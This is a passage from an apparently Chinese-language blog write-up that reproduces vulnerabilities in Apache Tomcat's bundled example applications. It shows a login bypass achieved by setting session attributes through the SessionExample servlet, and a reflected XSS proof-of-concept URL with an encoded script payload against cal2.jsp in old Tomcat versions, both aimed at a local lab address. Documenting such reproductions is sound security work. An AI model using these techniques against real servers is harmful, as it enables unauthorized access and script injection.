 ```
	} else{

		response.sendRedirect("login.jsp");

	}

%>
```

访问：http://192.168.64.129:8080/examples/index.jsp  提示跳转到 login.jsp

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140722713-1840846624.png)

访问：http://192.168.64.129:8080/examples/servlets/servlet/SessionExample 输入信息
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140734738-1183965546.png)
再次访问 index.jsp，就不需要登录了
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140746725-1545622885.png)



## 反射型XSS

---

### 影响范围

- Tomcat 4.1.31 ~ Tomcat 5.5.15

### 漏洞复现

```
http://192.168.64.129:8080/jsp-examples/cal/cal2.jsp?time=1%3Cscript%3Ealert(1)%3C/script%3E
```

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140832903-1596843521.png)






